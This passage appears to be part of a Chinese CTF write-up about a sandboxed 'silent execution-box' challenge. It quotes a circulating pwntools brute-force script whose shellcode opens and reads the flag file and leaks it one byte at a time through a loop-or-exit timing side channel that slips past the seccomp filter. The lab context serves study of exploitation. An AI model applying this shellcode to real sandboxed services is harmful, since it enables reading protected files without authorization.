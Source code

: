 [![](assets/1703640353-75b3b3ae20712e38f178c3fe46d49763.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191659-1eca9a86-a317-1.png)  
这里就是用 mmap 去申请 0x1000 的空间，然后设置了沙箱，read 只允许读入 0x40 大小的数据

[![](assets/1703640353-a8efaf8a5c12261ce8cea999eefce268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191713-273453ba-a317-1.png)  
本地运行一下发现基本上就是直接执行输入的东西  
然后我们分析一下现在流传的爆破脚本

```plain
def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
```